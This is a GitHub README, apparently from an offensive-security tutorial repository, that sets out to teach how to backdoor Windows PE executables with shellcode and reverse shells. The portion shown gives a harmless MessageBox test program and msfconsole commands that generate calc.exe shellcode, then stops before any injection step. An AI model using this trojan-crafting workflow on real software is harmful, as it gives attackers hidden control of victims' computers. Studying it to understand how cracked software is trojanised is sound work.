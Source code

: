 


# 🔷 PE-Backdooring

 - This Repository Will Teach You How You Can Backdoor Any PE File 
 - How You Can Convert Simple PE into a reverse shell
 -  How You Can Craft Trojans With Shellcode
---

## 🔷 My Introduction
Hi my name is Aryan, im a cyber security student, just a 17 year old kid who loves Hacking and Programming, i love RE | Malware Dev and Analysis | Game Hacking etc. 


## Introduction to PE-Backdooring 

**What is PE** - *PE is (Portable Executable) an executable file format which you typically see in windows .exe .dll .scr*
**What is Backdoor** - *Backdoor or backdooring is a method used for getting unauthorized access to any computer. Basically You can control someones computer from your computer without them knowing about it.*

So Basic idea of this repo is to make you understand how any hacker can plant a backdoor in your daily use softwares, So if for example you play **Call Of Duty Warzone** every day or any other game like **Battlefield 6** 
hacker can convert your game's exe to a malware can hack you.
And also this is **how people get hacked when they download crack software or games**.

---

## Video Explanation ( if you want)
I have explained everything on my **Youtube Channel**  [Watch Video!](https://youtu.be/SH95uXG-RXY?si=vdffzp9UJllloRAZ)

---

## Generating a PE for Testing
Ok Now First we need a PE file to experiment on right? 

i made a simple messagebox program in C++ which we will backdoor
think of it like its a **Photoshop 2025 software**

---
CODE:

    #include<Windows.h>
    
    int main(){
	    MessageBoxW(NULL,L"Photoshop.exe",L"Photoshop is now running",MB_OK);
	    return 0;
	   }

---
**Output of this program**:


<img width="240" height="170" alt="Screenshot 2025-08-20 205019" src="https://github.com/user-attachments/assets/52b5c10a-b347-4d46-95b8-f58680b8bdb9" />

## Generating A Shellcode(Malware)

Now we will make our payload basiclly with will give us the shell
but right now for testing we will make a shellcode to open calculator in windows


### Step 1: Open msfconsole in kali linux or any other distro

### Step 2: 
---
COMMAND:

 	//Opens msfconsole
	msfconsole

  	//Mention payload as Shellcode
  	use payload/windows/exec

 	//Set command with will execute
   	set CMD calc.exe

	//generate shellcode
 	generate -f raw -o shellocde.bin

---

### Step 3: Download this bin file to your windows machine




